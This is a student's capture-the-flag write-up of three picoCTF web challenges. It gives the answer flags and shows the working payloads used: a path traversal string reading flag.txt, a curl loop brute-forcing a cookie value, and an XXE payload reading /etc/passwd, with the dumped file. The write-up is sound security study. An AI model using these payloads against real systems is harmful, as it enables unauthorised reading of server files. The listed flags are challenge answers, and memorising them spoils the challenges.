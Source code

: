 # Forbidden Paths

**Flag:**  `picoCTF{7h3_p47h_70_5ucc355_6db46514}`

How you approached the challenge:

  

- 3 pieces information are given in the question, first is the path of the flag , second is the path of the current directory and third is the fact that we cannot use absolute paths.  

- The search bar acts like the `cat` command, so if i put in something like `/flag.txt` in the search bar, it should give me the flag, but it won't because it is filtering out the absolute paths.
- So i need to go back to parent directories using `..` operator and then when i get inside `/` , i read `flag.txt`
```
../../../../flag.txt
```
Using this fetched me the flag.

What you learned through solving this challenge:

1. Using `..` operator to access any fi;e in any parent directory

# Cookies

  

**Flag:**  `picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}`


How you approached the challenge:
- First i noticed that on the website, i noticed that there is only one cookie by the name of `name` & value `-1` on `http://mercury.picoctf.net:54219/` , is i search for any value , say `hello world`, response comes from `http://mercury.picoctf.net:54219/search` which has an extra `session` cookie with some value.
![hello world search](https://github.com/loded-diper/cryptonite_tp_2/blob/main/Images/hello_world.png)

- When we search for `snickerdoodle`,  we are redirected to `http://mercury.picoctf.net:54219/check` with a text saying `I love snickerdoodle cookies!`, and this page has a cookie with name `name` and value `0`.
![snickerdoodle search](https://github.com/loded-diper/cryptonite_tp_2/blob/main/Images/snickerdoodle.png)

- If i try to change the value of the cookie manually to say `1`, then the page reloads and shows `I love chocolate chip cookies!`
```
document.cookie = "name=1; path=/";
```
![Cookie: name=1](https://github.com/loded-diper/cryptonite_tp_2/blob/main/Images/chocolate_chip.png)
When i change the value to 2, it shows `I love oatmeal raisin cookies!`.

- So i created a shell script using `CURL` which sends `GET` requests to `http://mercury.picoctf.net:54219/check` modifying the value of cookie each time & greps `picoCTF` if found.
```bash
vishad@VISHAD:~$ vim script.sh

#!/bin/bash
for i in {0..100}
do
    curl -s -X GET "http://mercury.picoctf.net:54219/check" -b "name=$i" | grep "picoCTF" && echo "Found at $i"
done
```
On running this script i got the flag at `i=18`
```bash
vishad@VISHAD:~$ bash script.sh
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}</code></p>
Found at 18
```
I also manually checked it at the website by modifying the cookie there & got the flag.
```
document.cookie = "name=18; path=/";
``` 
![Cookie: name=18](https://github.com/loded-diper/cryptonite_tp_2/blob/main/Images/cookie_18.png)


What you learned through solving this challenge:

1. Modifying cookies using console

2. Using loops in scripts


Other incorrect methods you tried:

- Tried to search names & values of `name` and `session` cookie.

- Tried to search it in `.js` file
  

References
- https://www.geeksforgeeks.org/bash-scripting-for-loop/

- https://reqbin.com/req/c-bjcj04uw/curl-send-cookies-example

- etc.


# SOAP

**Flag:**  `picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}`

How you approached the challenge:

- In this challenge we needed to usle XXE injection to get the flag.
- In the website when we click details , the network showed communication with a site called `http://saturn.picoctf.net:56621/data` which could not be accessed using `GET` method.
- It had the following payload when clicked on details `<?xml version="1.0" encoding="UTF-8"?><data><ID>1</ID></data>`
-  so i needed to access the `etc/passwd` file , for which i sent the payload directly by editing it
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ELEMENT data ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>
  <ID>&xxe;</ID>
</data>
```
- using this i got the flag in return
```
Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}
```

What you learned through solving this challenge:
1. Use of XXE injections to access files on the server
  
Other incorrect methods you tried:
- Tried to change the ID of the original payload to random numbers like 0,-1 or big numbers